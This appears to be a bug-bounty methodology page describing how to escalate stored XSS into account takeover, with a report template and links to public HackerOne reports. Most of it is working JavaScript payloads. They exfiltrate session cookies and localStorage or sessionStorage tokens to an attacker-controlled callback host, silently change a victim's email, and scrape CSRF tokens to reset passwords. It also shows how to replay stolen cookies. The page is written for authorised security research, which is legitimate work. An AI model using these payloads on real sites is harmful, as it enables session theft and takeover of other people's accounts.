

> Source: https://bugbounty.info/Chains/XSS-to-Account-Takeover

# XSS to Account Takeover

## Why This Chain Works

Stored XSS gets triaged as medium because the reporter shows an alert box. That's not the report. The report is that your payload runs in the victim's browser with their session attached, and if their session cookie is readable from JavaScript - or their token lives in localStorage - you already have everything you need to authenticate as them. The cookie theft path is the obvious one. The storage-based path works even when HttpOnly is set.

Related: [XSS](../Attack-Surface/Web/Client-Side/XSS), [Session Management](../Attack-Surface/Web/Authentication/Session-Management), [IDOR to ATO](../Chains/IDOR-to-ATO)

---

## Attack Flow



---

## Step-by-Step

### 1. Find a Stored XSS

Look for fields whose value is rendered back to other users: comments, profile bios, display names, message threads, ticket subjects, product reviews. The payload needs to reach a second user's browser - not just reflect back to yours.

Confirm execution with a safe callback:

```javascript
<script>new Image().src='https://YOUR.oast.me/?x='+document.domain</script>
```

If you see the hit in Burp Collaborator or interactsh, you have stored XSS. Now build the chain.

### 2. Check Cookie Flags

Open DevTools on the target. Run `document.cookie` in the console. If your session cookie appears, HttpOnly is not set and the path is straightforward.

If `document.cookie` returns an empty string but you are clearly authenticated, HttpOnly is set. Move to Step 3.

### 3. Path A - Cookie Theft (No HttpOnly)

```javascript
<script>
fetch('https://YOUR.oast.me/steal?c=' + encodeURIComponent(document.cookie));
</script>
```

You receive the full cookie jar. Pull the session token from it. Set it in your browser using DevTools:

```javascript
document.cookie = "session=VICTIM_TOKEN; domain=target.com; path=/";
```

Reload the page. You are now the victim.

### 4. Path B - Token in Storage (HttpOnly Set)

Many SPAs store bearer tokens in `localStorage` or `sessionStorage` rather than cookies. HttpOnly protects cookies, not storage.

```javascript
<script>
var token = localStorage.getItem('auth_token')
           || localStorage.getItem('access_token')
           || sessionStorage.getItem('token');
fetch('https://YOUR.oast.me/steal?t=' + encodeURIComponent(token));
</script>
```

Scan all keys if you don't know the name:

```javascript
<script>
var data = {};
for (var i = 0; i < localStorage.length; i++) {
  var k = localStorage.key(i);
  data[k] = localStorage.getItem(k);
}
fetch('https://YOUR.oast.me/steal?d=' + encodeURIComponent(JSON.stringify(data)));
</script>
```

Use the stolen bearer token directly in API calls.

### 5. Path C - CSRF-Adjacent Action (HttpOnly, No Token in Storage)

When you cannot read credentials directly, the XSS payload can act as the victim. Common actions:

**Change email silently:**

```javascript
<script>
fetch('/api/account/email', {
  method: 'POST',
  headers: {'Content-Type': 'application/json',
            'X-CSRF-Token': document.querySelector('meta[name=csrf-token]').content},
  body: JSON.stringify({email: 'attacker@attacker.com'})
});
</script>
```

After the email changes, trigger a standard password reset to the attacker-controlled inbox.

**Read anti-CSRF token and chain a state-change:**

```javascript
<script>
fetch('/settings').then(r => r.text()).then(html => {
  var token = html.match(/csrf.{0,20}value="([^"]+)"/)[1];
  return fetch('/account/password', {
    method: 'POST',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'},
    body: 'password=Attacker123!&csrf=' + token
  });
});
</script>
```

### 6. Confirm ATO

Whether you replayed a cookie, used a bearer token, or forced an email change, confirm by loading the victim's profile page and showing account-specific data (name, order history, admin indicator) as proof.

---

## PoC Template for Report

```text
1. Stored XSS in profile bio field at /settings/profile
   Payload: <script>fetch('https://oast.me/?c='+encodeURIComponent(document.cookie))</script>
2. Victim (Account B) views attacker's profile at /user/attacker
3. Burp Collaborator receives: c=session=VICTIM_SESSION_VALUE
4. Attacker sets cookie in browser DevTools:
   document.cookie = "session=VICTIM_SESSION_VALUE; path=/"
5. Reload /dashboard - now authenticated as victim
6. Screenshot of victim's account dashboard showing their username and email attached.
```

---

## Public Reports

- Stored XSS on Shopify's partner dashboard leading to full merchant account takeover - [HackerOne #1523869](https://hackerone.com/reports/1523869)
- Stored XSS in HackerOne's markdown leading to account takeover via cookie theft - [HackerOne #4212](https://hackerone.com/reports/4212)
- XSS on Coinbase via stored payload in username field exfiltrating session - [HackerOne #109944](https://hackerone.com/reports/109944)
- Stored XSS to ATO via localStorage token theft on Grammarly - [HackerOne #1276742](https://hackerone.com/reports/1276742)

---

## Reporting Notes

The alert box is not the report. The report ends with a screenshot of the victim's account dashboard from the attacker's browser. Show the full chain: where the payload is stored, which endpoint the victim visits to trigger it, where the stolen credential arrives, and how you authenticate with it. Severity is determined by who can be the victim - if it fires on an admin page, that's critical regardless of the cookie-theft mechanism used.
